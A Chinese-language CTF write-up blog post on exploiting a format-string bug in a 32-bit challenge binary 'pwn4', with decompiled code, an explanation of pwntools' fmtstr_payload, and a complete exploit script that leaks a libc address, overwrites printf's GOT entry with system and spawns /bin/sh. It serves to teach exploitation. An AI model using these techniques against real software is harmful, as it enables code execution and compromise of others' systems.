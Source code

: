 ```yaml
---
layout:     post
title:      "fmtstr利用之pwn4"
subtitle:   "记一简单格式化字符串利用过程"
date:       2018-09-01 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - 笔记
 
---
```



## 0x00 代码分析

1，检查保护

	[*] '/home/chris/Pwn/pwn4'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)

 只开了NX

2，使用IDA分析程序流程

main 函数分析

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  char buf; // [esp+0h] [ebp-88h]
	
	  puts("please login first");
	  fflush(stdout);
	  login();
	  if ( login_flag )
	  {
	    printf("welcome~%s,the present for first meet~%p\n", &name, &buf);
	    puts("do you have something say to me~");
	    fflush(stdout);
	    if ( read(0, &buf, 0x80u) < 0 )
	    {
	      puts("read error");
	      exit(0);
	    }
	    printf(&buf);
	  }
	  else
	  {
	    puts("please login first!");
	    login();
	  }
	  return 0;
	}


login 函数分析

	int login()
	{
	  puts("your name:");
	  fflush(stdout);
	  if ( read(0, &name, 0x20u) < 0 )
	  {
	    puts("read error");
	    exit(0);
	  }
	  login_flag = 1;
	  return puts("logined!");
	}

程序定义了一个buf[88]的数组，首先让输入你的名字，然后再打印出刚才输入的名字和buf的栈地址，然后再让你输入一个字符串，打印出这个字符串。


## 0x01 漏洞分析

首先分析输入name的地方，name的地址在bss段，不在栈中无法溢出。输入buf的地方，buf虽然在栈中，大小为`ebp-88h`，但是输入的地方`read(0, &buf, 0x80u)`，长度不能够溢出。明显`printf(&buf);`存在格式化字符串漏洞。


## 0X02 漏洞利用与fmtstr_payload介绍

很明显的格式化字符串漏洞了，执行一个任意地址泄露和任意地址写（泄露printf函数的plt.got表内地址，往main函数ret地址写一个main函数地址，回去二次执行程序流程）。因为前面泄露了地址，程序提供了libc库，算出system函数实际地址，第二次就往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。最后printf（&system("/bin/sh")）拿到shell。

这里介绍一个pwntools自带的格式化字符串任意地址写的函数：**fmtstr_payload**

`fmtstr_payload（offset，writes，numbwritten = 0，write_size ='byte' ）`

使用给定参数创建有效负载。它可以为32位或64位架构生成有效负载。addr的大小取自`context.bits`

参数：

* offset（int） - 您控制的第一个格式化程序的偏移量
* 写（dict） - dict with addr，value{addr: value, addr2: value2}
* numbwritten（int） - printf函数已写入的字节数
* write_size（str） - 必须是byte，short或int。告诉您是否要逐字节写入，短按short或int（hhn，hn或n）

例子：

	>>> context.clear(arch = 'amd64')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
	>>> context.clear(arch = 'i386')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00%322419386c%1$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'


## 0X03 完整利用过程

* 构造`p32(put_got)+"%4$s"`，同时这里还要往返回地址写一个main函数地址。找到`&buf+9c`偏移为ret地址，继续构造`fmtstr_payload(6,{ret:main},12)`，参数6为4偏移加上泄露字符串的长度2DWORD,参数12为%s泄露出的地址和额外数据长度+4，因为%s以`'\0'`结尾,不同libc库环境可能这个参数数值不同，可自行根据判断调整。
* 成功泄露地址后算出system函数地址，第二次执行流程利用，同理`fmtstr_payload(4,{printf_got:system,ret+4:main},0,'short')+";/bin/sh;#"`往ret+4写是因为，第二次执行main函数后ret地址往后挪了一位。然后往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。不同的是这里的payload最后要写入个`;/bin/sh;#`因为第三次执行流程的`printf(&buf)`buf地址为第二次的buf地址偏一点点，用了参数截断，执行/bin/sh。




## 0x04 脚本

	from pwn import *
	context.log_level="debug"
	context.arch="i386"
	p = process("./pwn4")
	
	p.recvuntil("name:")
	p.sendline("A"*0x10)
	p.recvuntil("meet~")
	
	stack = int(p.recvuntil("\n",drop=True),16)
	
	print hex(stack)
	ret = stack + 0x9c
	print hex(ret)
	put_got = 0x804A018
	pay = p32(put_got)+"%4$s"
	
	pay2 = fmtstr_payload(6,{ret:0x804856E},12)
	pay = pay + pay2
	p.recvuntil("g say to me~")
	
	p.sendline(pay)
	print p.recvuntil("\x18\xa0\x04\x08")
	puts = u32(p.recv(4))
	
	libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")
	
	system = puts - libc.symbols['puts'] + libc.symbols['system']
	
	sleep(2)
	p.send("A"*0x20)
	
	print hex(system)
	
	pay = fmtstr_payload(4,{0x804a010:system,ret+4:0x0804856e},0,'short')+";/bin/sh;#"
	
	p.send(pay)
	
	sleep(2)
	p.recvuntil("#")
	sleep(1)
	p.sendline("BBBBBB")
	
	p.interactive()

## 0x05 总结

其实这道题有个很简单的解法，直接往返回地址写rop，泄露地址，执行system，全部rop就搞定了

大致就这样 :

`exp1=fmtstr_payload(4,{ret:put_plt,ret+4:main,ret+8:put_got},0,'short')`

`exp2=fmtstr_payload(4,{ret:system_addr,ret+4:任意,ret+8:name_addr('/bin/sh')},0,'short')`

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/fmtstr%E5%88%A9%E7%94%A8%E4%B9%8Bpwn4)


